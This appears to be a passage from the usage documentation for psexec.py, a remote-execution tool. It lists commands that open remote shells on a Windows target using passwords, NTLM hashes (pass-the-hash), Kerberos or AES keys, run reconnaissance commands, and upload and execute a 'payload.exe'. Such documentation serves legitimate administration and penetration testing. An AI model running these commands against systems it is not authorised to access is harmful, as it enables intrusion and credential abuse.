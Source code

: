 ```
```

## Usage Examples

### Basic Remote Shell
```bash
# Interactive shell with password authentication
python3 psexec.py domain.com/administrator:password@target.domain.com

# Interactive shell with hash authentication
python3 psexec.py -hashes :ntlmhash administrator@target.domain.com

# Interactive shell with Kerberos authentication
python3 psexec.py -k domain.com/administrator@target.domain.com -dc-ip 192.168.1.10
```

### Single Command Execution
```bash
# Execute single command
python3 psexec.py domain.com/administrator:password@target.domain.com "whoami"

# Get system information
python3 psexec.py domain.com/administrator:password@target.domain.com "systeminfo"

# List users
python3 psexec.py domain.com/administrator:password@target.domain.com "net user"
```

### File Upload and Execution
```bash
# Upload and execute local file
python3 psexec.py domain.com/administrator:password@target.domain.com -file /path/to/payload.exe

# Copy file from UNC path and execute
python3 psexec.py domain.com/administrator:password@target.domain.com -c \\\\share\\path\\payload.exe

# Specify target path for uploaded file
python3 psexec.py domain.com/administrator:password@target.domain.com -file payload.exe -path C:\\Windows\\Temp\\
```

### Advanced Authentication
```bash
# Use AES key for Kerberos
python3 psexec.py -aesKey 32_char_aes_key domain.com/user@target.domain.com -k

# Use keytab file
python3 psexec.py -keytab user.keytab domain.com/user@target.domain.com -k

# Specify custom service name
python3 psexec.py domain.com/administrator:password@target.domain.com -service-name CustomSvc
```
